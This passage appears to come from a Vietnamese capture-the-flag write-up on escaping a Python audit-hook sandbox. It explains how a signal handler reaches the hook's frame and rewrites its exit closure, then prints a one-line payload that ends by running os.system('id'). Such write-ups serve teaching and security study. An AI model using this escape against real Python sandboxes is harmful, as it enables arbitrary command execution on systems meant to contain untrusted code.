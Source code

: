 Một cơ chế để ghi nhớ các biến bên trong scope của một function, cho phép function truy cập vào các biến trong scope của nó ngay cả khi nó được invoke ở nơi ngoài scope của nó.

```py
def safe_eval(exit, code):
    def hook(*a):
        exit(1)
```

Như ở trên thì closure của `hook` sẽ chứa `code` và `exit`, vậy nếu có thể truy cập vào closure của `hook` ta sẽ có thể sửa được `exit` trỏ đến một function khác. Khi mình thử cách này thì mình không tìm được cách nào để truy xuất đến `hook` cả, execute context của ta là ở hàm `dummy`, tuy nhiên thì không có `self` vì đây không phải là class nên mình cũng chẳng biết làm thế nào

### Author's solution

Cách làm của tác giả là register một signal handler (why no `sys.audit`?) và trigger một signal (why no `sys.audit`???), tham số của signal handler thì đầu tiên là signal number và tiếp theo là signal frame (khi signal được trigger ta cần có stack frame lúc signal trigger để handle error). Với signal frame ta sẽ truy cập được vào frame của `hook` và chỉnh sửa `exit`

```py
frame.f_back.f_locals['hook'].__closure__[0].__setattr__('cell_contents', lambda a: 1)
```
`cell_contents` là data của closure đó, trong `hook` chỉ có một biến được dùng là `exit` (`a` là parameter) do đó `__closure__[0].call_contents` sẽ là `exit`

Payload của author: 

```py
0,(s:=__import__('sys').modules['_signal'],s.signal(2,lambda a,b:b.f_back.f_locals['hook'].__closure__[0].__setattr__('cell_contents',lambda x:0)),s.raise_signal(2),__import__('os').system('id'))
```


